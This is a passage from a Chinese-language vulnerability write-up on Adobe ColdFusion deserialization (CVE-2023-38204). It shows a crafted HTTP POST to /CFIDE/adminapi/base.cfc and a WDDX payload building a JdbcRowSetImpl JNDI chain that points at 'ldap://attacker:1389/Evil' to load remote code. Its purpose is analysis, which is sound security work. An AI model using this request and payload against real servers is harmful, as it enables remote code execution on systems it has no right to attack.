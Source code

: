 ![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjIAvEMXrxZufUKmqne5iaOqec87p36LmjBEOrZ3rqRI3J0y3GZEIQXkUj3PqLiberCh1woVNEY1ibTrA/640?wx_fmt=png "")  
  
此处存在一个   
if  
 判断，如果没有传入 method 参数的话就会提前返回 302，截断我们的攻击路径。因此我们还需要传递一个 method 参数。  
```
POST /CFIDE/adminapi/base.cfc?method HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 365
Content-Type: application/x-www-form-urlencoded

argumentCollection=/* payload */
```  
  
这样我们就能跳过   
if  
，调用   
GetArgumentCollection()  
 方法将序列化后的恶意数据传入服务器了。  
  
#  04 漏洞利用  
  
  
因此，我们类比 FastJson，不难想到通过调用   
JdbcRowSetImpl  
 类的   
setDataSourceName  
 和   
setAutoCommit  
 两个   
setter  
 方法来构造 JNDI 利用链。此利用链被赋予 CVE 编号 CVE-2023-38204。  
```
<wddxPacket version='1.0'>
    <header/>
    <data>
        <struct type='xcom.sun.rowset.JdbcRowSetImplx'>
            <var name='dataSourceName'>
                <string>ldap://attacker:1389/Evil</string>
            </var>
            <var name='autoCommit'>
                <boolean value='true'/>
            </var>
        </struct>
    </data>
</wddxPacket>
```  
  